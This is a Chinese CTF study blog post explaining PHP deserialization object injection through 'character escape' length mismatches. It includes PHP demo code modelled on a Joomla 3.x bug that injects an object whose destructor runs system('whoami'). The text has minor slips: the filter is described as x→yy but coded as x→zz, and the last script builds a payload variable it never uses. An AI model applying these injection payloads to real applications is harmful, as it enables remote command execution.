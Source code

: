 ```yaml
---
layout: post
title: 'PHP字符逃逸'
subtitle: 'PHP字符逃逸导致的对象注入'
date: 2021-07-12
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 bugku刷题
---
```

### 漏洞产生原因

序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了serialize函数之后，要是放在序列化之前应该就不会产生这个问题

	?php
	function filter($string){
	  $a = str_replace('x','zz',$string);
	   return $a;
	}
	
	$username = "tr1ple";
	$password = "aaaaax";
	$user = array($username, $password);
	
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	
	var_dump(unserialize($r));
	$a='a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa";';
	var_dump(unserialize($a));

php特性：

	1.在反序列化时，底层代码是以";"作为字段的分隔，以"}"作为结尾（字符串除外），并且是根据长度判断内容的
	
	2.对类中不存在的属性也会进行反序列化

以上代码就明显存在一个问题，即从序列化后的字符串中明显可以看到经过filter函数以后s:6对应的字符串明显变长了

并且如果对于a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa"; 这种字符串而言，也能够正常反序列化，说明php在反序列化的时候只要求一个反序列化字符串块合法即可，当然得是第一个字符串块

以以上代码为例，如果能够利用filter函数这种由一个字符变为两个字符的特性来注入想要反序列化后得到的属性，使其可以逃逸出更多可用的字符串，那么我们就能反序列化得到我们想要的属性

比如此时我们想要让反序列化后第二个字符串为123456，此时我们的payload如果和之前的username长度为a，则filter处理以后可能username就会变成a，此时我们的payload变成了新的注入的属性，此时反序列化后就会得到我们想要的结果，比如a:2:{i:0;s:6:"tr1ple";i:1;s:6:"123456";}是我们想要达到的效果，此时我们想要注入的payload明显为：

";i:1;s:6:"123456";}

可以得到其长度为20

此时我们已经知道过滤的规则为x->yy，即注入一个x可以逃逸出一个字符的空位，那么我们只需要注入20个x即可变成40个y，即可逃逸出20个空位，从而将我们的payload变为反序列化后得到的属性值

	$username = 'tr1plexxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}'; //其中红色就是我们想要注入的属性值 
	$password="aaaaa";
	$user = array($username, $password);
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	var_dump(unserialize($r));

可以看到此时注入属性成功，反序列化后得到的属性即为123456

### 实例分析

joomla3.0.0-3.4.6 对象注入导致的反序列化,以下为参考别人的简易化核心漏洞代码

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "tr1ple";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

在这里如果想要通过注入对象来实现反序列化则必须在外部对象内进行注入存在的属性，不能在其外部，否则php将不会进行我们注入恶意对象的反序列化

例如此时因为反序列化读取的时候将会将六位字符\0\0\0替换成三位字符chr(0)*chr(0),因此字符串前面的s肯定是固定的，那么s对应的字符串变少以后将会吞掉其他属性的字符，那么如果我们精心算好吞掉的字符长度，并且能够控制被吞掉属性的内容，那么就能够注入对象，从而反序列化其他类

比如如上所示，此时我们要注入的对象为evil，此时username和password的值我们可控，那么我们可以在username中注入\0，来吞掉password的值，比如

	<?php
	$a='\0\0\0';
	echo strlen($a);
	$b=str_replace('\0\0\0', chr(0).'*'.chr(0), $a);
	echo strlen($b);


所以此时首先确定我们要吞掉的字符的长度

O:4:"User":2:{s:8:"username";s:6:"tr1ple";s:8:"password";s:4:"1234";}

正常情况下我们要吞掉 ";s:8:"password";s:4:" 为22位

但是因为注入的对象payload也在password字段，并且长度肯定是>=10的，因此s肯定是两位数，因此这里为22+1=23位字符

因为是6->3，因此每次添加一组\0\0\0能多吞掉3个字符，因此需要肯定都是3的倍数

因此我们假如这里构造username为\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0 

则经过read函数处理后长度将变为24

即此时能够多吞掉24个字符，为了不让其吞掉payload，我们可以填充1位字符A，即令password的值为A+payload即可

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; $shellcode=$password.$payload; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

执行结果如上图所示，将成功反序列化password属性所对应的值，其值即为我们注入的对象，整个过程也容易理解，就是吞掉后面的属性来注入属性，那么达到攻击有以下要求：

> 1.相邻两个属性的值是我们可以控制的

> 2.前一个属性的s长度可以发生变化，变长变短都可以，变短的话可以吞掉后面相邻属性的值，然后在相邻属性中注入新的对象，如果边长则可以直接在该属性中注入对象来达到反序列化

比如XNUCA2018 hardphp就考察了一个这个相关的trick

这里就出现了用前面的data在反序列化时向后吞一位字符，从而可以导致吞掉后面的普通用户的username字段，而在username字段可以放上我们想要伪造的username，从而达到伪造session的目的

参考

[https://www.cnblogs.com/magic-zero/p/9525842.html](https://www.cnblogs.com/magic-zero/p/9525842.html)

[https://github.com/wonderkun/CTF_web/tree/master/web400-12](https://github.com/wonderkun/CTF_web/tree/master/web400-12)